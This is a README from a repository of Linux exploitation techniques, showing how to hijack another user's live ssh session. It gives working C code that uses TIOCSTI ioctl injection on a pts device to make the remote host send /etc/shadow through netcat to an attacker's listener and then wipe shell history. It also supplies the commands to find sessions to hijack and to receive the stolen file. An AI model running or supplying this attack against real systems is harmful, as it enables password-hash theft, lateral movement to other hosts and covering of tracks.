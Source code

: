 # Linux-Trix
An assortment of techniques that can be used to exploit Linux.  Most of these assume that you have or can attain root privileges on the host.  You will need to change IP addresses and other references in the examples to fit your environment.

## Stuffing commands into an existing ssh session

**This example assumes the following**<br />
* The attacking Linux machine (A) is 192.168.1.7
* The victim Linux machine (B) is 192.168.1.5
* The remote host (C) that a user on (B) has an ssh session open to is 192.168.10.10

**You have aquired root on a target (B), check for active ssh client sessions to other remote hosts**<br />
`ps -ef | grep ssh | grep @`

Example output, you see user "bill" on "pts/1" connected to a remote host (C) as "root".<br />
`bill     18953 18855  0 08:42 pts/1    00:00:00 ssh root@192.168.10.10`

Compile the following C code on (B) as `ptshijack.c` to get /etc/shadow from (C).<br />
```c
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>

// gcc ptshijack.c -o ptshijack

int main() {
    int fd = open("/dev/pts/1", O_RDWR);
    if (fd < 0) {
        perror("open");
        return -1;
    }
    // your commands to execute go here.
    char *x = "(cat /etc/shadow | nc 192.168.1.7 4444) &\nhistory -c\nclear\n";
    while (*x != 0) {
        int ret = ioctl(fd, TIOCSTI, x);
        if (ret == -1) {
            perror("ioctl()");
        }
        x++;
    }
    return 0;
}
```

**Start netcat on (A) to receive /etc/shadow from (C)**<br />
```nc -nlvp 4444```

**Execute `ptshijack` on (B) to send /etc/shadow from (C) to (A)**<br />
break (ctrl-c) netcat on (A) to terminate the background process on (C)<br />
